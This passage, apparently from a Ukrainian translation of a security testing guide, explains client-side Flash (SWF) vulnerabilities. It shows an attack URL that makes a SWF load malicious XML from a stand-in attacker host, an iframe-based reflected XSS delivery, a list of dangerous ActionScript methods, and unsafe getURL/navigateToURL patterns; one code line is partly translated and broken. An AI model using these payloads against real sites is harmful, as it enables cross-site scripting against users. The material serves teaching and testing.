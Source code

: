 Вищенаведений код може бути атакований за допомогою запиту:

```
http://victim/file.swf?language=http://evil.example.org/malicious.xml?
```

###  Небезпечні методи

Коли точку входу ідентифіковано, дані, які вона представляє, можуть бути використані небезпечними методами. Якщо дані не відфільтровано чи перевірено, це може призвести до певних уразливостей.

Небезпечними методами з версії r47 є:

* ```loadVariables()```
* ```loadMovie()```
* ```getURL()```
* ```loadMovie()```
* ```loadMovieNum()```
* ```FScrollPane.loadScrollContent()```
* ```LoadVars.load```
* ```LoadVars.send```
* ```XML.load ('url')```
* ```LoadVars.load ('url')```
* ```Sound.loadSound( 'url' , isStreaming );```
* ```NetStream.play( 'url');```
* ```flash.external.ExternalInterface.call(_root.callback)```
* ```htmlТекст```

###  Експлуатація Reflected XSS

Swf-файл має бути розміщено на хості жертви, і слід використовувати техніку відображеного XSS. Зловмисник змушує веб-переглядач завантажити чистий swf-файл безпосередньо в рядок розташування (шляхом переспрямування чи соціальної інженерії) або завантажуючи його через iframe зі зловмисної сторінки:

```
<iframe src='http://victim/path/to/file.swf'></iframe>
```

У цій ситуації веб-переглядач самостійно створить HTML-сторінку, як якщо б вона була розміщена на хості-жертві.

###  GetURL (AS2) / NavigateToURL (AS3)

Функція GetURL у ActionScript 2.0 і NavigateToURL у ActionScript 3.0 дозволяє фільму завантажувати URI у вікно браузера. Якщо невизначена змінна використовується як перший аргумент для getURL:

```
getURL(_root.URI,'_targetFrame');
```

Або якщо FlashVar використовується як параметр, який передається у функцію navigateToURL:

```
var request:URLRequest = new URLRequest(FlashVarSuppliedURL);
navigateToURL(запит);
```
